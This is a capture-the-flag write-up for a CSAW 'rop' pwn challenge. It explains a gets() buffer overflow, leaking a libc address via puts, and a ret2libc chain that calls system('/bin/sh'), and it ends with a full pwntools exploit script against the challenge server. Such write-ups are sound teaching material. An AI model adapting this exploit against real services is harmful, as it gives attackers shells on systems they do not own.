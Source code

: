 ## The Problem

Welcome to pwn!
```nc pwn.chal.csaw.io 5016```

[rop](https://github.com/fweefwop/writeups/blob/master/csaw20/rop)
[libc.2.27](https://github.com/fweefwop/writeups/blob/master/csaw20/libc-2.27.so)

## The Beginning
This is a classic ret2lib binary exploitation problem. Source code is not given so we need to use Cutter to see the code.

The ```main``` looks like this:       

```
undefined8 main(void)
{
    char *s;
    
    init();
    puts("Hello");
    gets(&s);
    return 0;
    }
```

## Get gadgets
Use ```ROPgadget --binary rop | grep "ret"``` to get ```ret``` address ```0x40048e```        

## Or automatically get them through pwn
Like this:
```
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
```
## Find plt address for 
```
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

```

## Create 1st rop 
The first rop is used to leak libc base address.

```
rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)

```

After sending in the rop through ``` p.sendline(rop)```, we will receive an address back. This is the leaked ```main``` address.

We used ```bytes_to_long(received[-2: :-1])``` to process the address and put it into ```leaked```.
Then use this leaked to construct second rop!

## Construct second rop
We can get libc base address through ``` leaked - libc.sym["__libc_start_main"] ``` and assign it to ```libc.address```.    
```libc = ELF("libc-2.27.so")``` which is given. This libc is machine dependent. You can find out which libc you are using by ```ldd rop```, and set libc accordingly. 

The second rop is like this:
```
rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])

```

## Original Script

```
from pwn import *
from Crypto.Util.number import *

p = remote('pwn.chal.csaw.io', 5016)
#p = process("rop")
libc = ELF("libc-2.27.so")

elf = ELF("rop")
rop = ROP(elf)

base = b"A"*40
ret = 0x40048e
poprdi = (rop.find_gadget(['pop rdi', 'ret']))[0]
_libc_start_main_ptr = elf.symbols['__libc_start_main']
puts = elf.symbols['puts']
main = elf.symbols["main"]

log.info("rdi:"+hex(poprdi))
log.info("_libc_start:"+hex(_libc_start_main_ptr))
log.info("puts:"+hex(puts))

rop = base + p64(poprdi) + p64(_libc_start_main_ptr) + p64(puts) + p64(main)
log.info("Sending 1st payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

recieved = p.recvline()
leaked = bytes_to_long(recieved[-2: : -1])

log.info("address of leaked:"+hex(leaked))

libc.address = leaked - libc.sym["__libc_start_main"]
log.info("address of libc:" + hex(libc.address))

rop = base + p64(poprdi) + p64(next(libc.search(b"/bin/sh"))) + p64(ret) + p64(libc.symbols["system"])
log.info("Sending real payload: \n{}".format(hexdump(rop)))

p.recvline()
p.sendline(rop)

p.interactive()
```
